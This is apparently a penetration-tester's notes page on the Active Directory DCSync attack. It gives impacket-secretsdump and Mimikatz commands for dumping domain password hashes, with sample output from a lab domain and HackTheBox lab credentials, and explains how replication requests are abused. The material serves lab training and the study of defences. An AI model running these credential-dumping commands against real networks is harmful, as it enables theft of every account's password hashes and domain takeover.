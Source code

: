 ```yaml
---
description: >-
  DCSync Attack
title: DCSync Attack              # Add title here
date: 2023-04-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, dcsync, impacket-secretsdump]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Impacket-secretsdump
```bash
impacket-secretsdump htb.local/mrlky:'Football#7'@10.10.10.103
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:dcsync)
### Mimikatz
Upload the mimikatz executable to the machine first, then execute:
```bash
privilege::debug
token::elevate
lsadump::dcsync /all /csv
```

### Mimikatz Administrator
```bash
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

\*\* SAM ACCOUNT \*\*

SAM Username         : Administrator
User Principal Name  : Administrator@corp.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 05/02/2018 19.33.10
Object Security ID   : S-1-5-21-1602875587-2787523311-2599479668-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: e2b475c11da2a0748290d87aa966c327
  ntlm- 0: e2b475c11da2a0748290d87aa966c327
  lm  - 0: 913b84377b5cb6d210ca519826e7b5f5

Supplemental Credentials:
\* Primary:NTLM-Strong-NTOWF \*
  Random Value : f62e88f00dff79bc79f8bad31b3ffa7d

\* Primary:Kerberos-Newer-Keys \*
  Default Salt : CORP.COMAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096): 4c6300b908619dc7a0788da81ae5903c2c97c5160d0d9bed85cfd5af02dabf01
  aes128_hmac (4096): 85b66d5482fc19858dadd07f1d9b818a
  des_cbc_md5 (4096): 021c6df8bf07834a

\* Primary:Kerberos \*
  Default Salt : CORP.COMAdministrator
  Credentials
    des_cbc_md5       : 021c6df8bf07834a

\* Packages \*
  NTLM-Strong-NTOWF

\* Primary:WDigest \*
  01  4ec8821bb09675db670e66998d2161bf
  02  3c9be2ff39c36efd2f84b63aa656d09a
  03  2cf1734936287692601b7e36fc01e2d7
  04  4ec8821bb09675db670e66998d2161bf
  05  3c9be2ff39c36efd2f84b63aa656d09a
...
```
Examples:
[[Sauna#^dd4d7f]]
Finally you can use the `Hash NTLM` to login with [[Pass The Hash]] technique
# Explanation
Another way to achieve persistence in an Active Directory infrastructure is to steal the password hashes for all administrative users in the domain.

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user. We could also steal a copy of the NTDS.dit database file, which is a copy of all Active Directory accounts stored on the hard drive, similar to the SAM database used for local accounts.

While these methods might work fine, they leave an access trail and may require us to upload tools. An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation.

In production environments, domains typically have more than one domain controller to provide redundancy. The Directory Replication Service Remote Protocol uses _replication_ to synchronize these redundant domain controllers. A domain controller may request an update for a specific object, like an account, with the _IDL_DRSGetNCChanges API.

Luckily for us, the domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user who is a member of the Domain Admins group, it will succeed.

In the next example, we will log in to the Windows 10 client as jeff_admin to simulate a compromise of a domain administrator account and perform a replication.

We'll open Mimikatz and start the replication using lsadump::dcsync with the /user option to indicate the target user to sync, in this case the built-in domain administrator account Administrator, as shown below.

The dump contains multiple hashes associated with the last twenty-nine used user passwords as well as the hashes used with AES encryption.

Using the technique above, we can request a replication update with a domain controller and obtain the password hashes of every account in Active Directory without ever logging in to the domain controller.